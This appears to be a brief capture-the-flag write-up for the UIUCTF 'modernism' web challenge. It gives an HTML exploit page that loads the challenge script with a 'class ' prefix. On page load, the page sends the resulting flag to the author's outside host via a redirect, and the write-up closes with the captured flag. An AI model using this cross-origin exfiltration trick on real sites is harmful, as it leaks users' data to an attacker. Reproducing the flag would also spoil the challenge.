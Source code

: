 # modernism

I prefixed `class ` so you get `class uiuctf{FLAG}` and then got the parameter out.

```html
<!DOCTYPE html>
<body>
    <script src="https://modernism-web.chal.uiuc.tf/?p=636c61737320"></script>
    <script>
        window.onload = () => {
            document.location = 'https://seraphin.xyz/?q='+uiuctf.toString();
        }
    </script>
</body>

```

uiuctf{IqMDsheILiVLOcCOlllJdvjadLrmCjvFEQ}

